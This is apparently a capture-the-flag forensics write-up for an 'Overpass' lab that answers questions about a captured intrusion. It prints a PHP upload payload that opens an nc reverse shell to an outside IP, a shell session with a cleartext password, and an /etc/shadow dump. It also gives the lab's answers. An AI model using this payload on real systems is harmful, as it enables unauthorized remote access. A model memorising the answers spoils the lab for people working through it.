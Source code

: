 3. What payload did the attacker use to gain access?

```
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

5. What password did the attacker use to privesc?

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant
```

`whenevernoteartinstant`

7. How did the attacker establish persistence?

```
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
```